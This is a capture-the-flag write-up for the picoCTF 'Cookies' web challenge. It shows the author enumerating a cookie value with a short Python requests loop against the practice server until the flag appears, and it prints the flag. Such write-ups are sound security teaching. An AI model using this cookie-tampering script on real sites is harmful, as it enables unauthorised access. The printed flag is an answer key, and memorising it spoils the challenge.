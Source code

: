 # Cookies
## Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
> 40 points 
## Hint 
(None)

The main page of the web app like that 
<div align="center">
     <img src="https://user-images.githubusercontent.com/83420725/177021142-2bba6c9e-c655-4faa-8023-f404dd5c44d8.png">
</div>

## [*] - Step 1
First, reaching the main page, the web app set a cookie

        Cookie: name=-1

## [*] - Step 2
By searching for `snickerdoodle`, cookie changed 
        
        Cookie: name=0

## [*] - Step 3
I try with another cookie {1,2,3,4,5...} and I see the message will be changed 

    Cookie: name=1; I love chocolate chip cookies!
    Cookie: name=2; I love oatmeal raisin cookies!
    Cookie: name=3; I love gingersnap cookies!
    ...
    Cookie: name=29; 
## [*] - Step 3
write python script to get flag

```python 
import requests
for i in range(30):
	cookie = f'name={i}'
	headers = {'Cookie':cookie}
    
	r = requests.get('http://mercury.picoctf.net:54219/check', headers=headers)
	if (r.status_code == 200) and ('picoCTF' in r.text):
		print(f'{r.text} \ncookie: {i}')
```
    Cookie: name=18
> picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}




